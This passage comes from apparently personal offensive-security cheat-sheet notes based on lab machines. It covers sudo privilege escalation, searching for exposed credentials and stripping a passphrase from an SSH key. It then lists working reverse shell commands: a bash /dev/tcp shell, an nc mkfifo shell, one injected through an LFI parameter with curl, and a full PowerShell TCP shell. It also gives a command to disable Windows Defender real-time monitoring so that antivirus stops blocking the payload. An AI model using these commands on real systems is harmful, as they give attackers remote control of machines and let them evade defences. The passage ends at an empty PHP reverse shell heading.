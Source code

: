 - If you got `(ALL) ALL` just escalate it with `sudo su` u pass with no password.
- Some times you can get something like `(ALL, !root)`
```shell
hugo@blunder:~$ sudo -l
Password:
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
hugo@blunder:~$ sudo /bin/bash
Sorry, user hugo is not allowed to execute '/bin/bash' as root on blunder.

hugo@blunder:~$ sudo -u shaun /bin/bash
shaun@blunder:/home/hugo$
```
#### 10) Exposed Credentials
- we can look for files we can read and see if they contain any exposed credentials. This is very common with `configuration` files, `log` files, and user history files (`bash_history` in Linux and `PSReadLine` in Windows). The enumeration scripts we discussed at the beginning usually look for potential passwords in files and provide them to us
- They can be found in
	- Database files
	- Php files
- To remove passphrase from id_rsa file if u have the passphrase
	- `openssl rsa -in dorthi.pem -out id_rsa.pem`
## Reverse Shells - commands
### bash Reverse Shell
- `bash -i >& /dev/tcp/10.10.14.36/8003 0>&1`	  
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.27 8003 >/tmp/f`
```shell
# If it is on LFI
curl http://10.10.10.150/index.php -G --data-urlencode 'pwn=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 1234 >/tmp/f '
```
### powershell Reverse Shell
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.15.78',4444);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()
```
- We Might get errors while doing this PS payload, error like
```powershell
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```
- For this we need to deactivate the AV, using the following command
	- `Set-MpPreference -DisableRealtimeMonitoring $true`
### PHP Reverse Shell
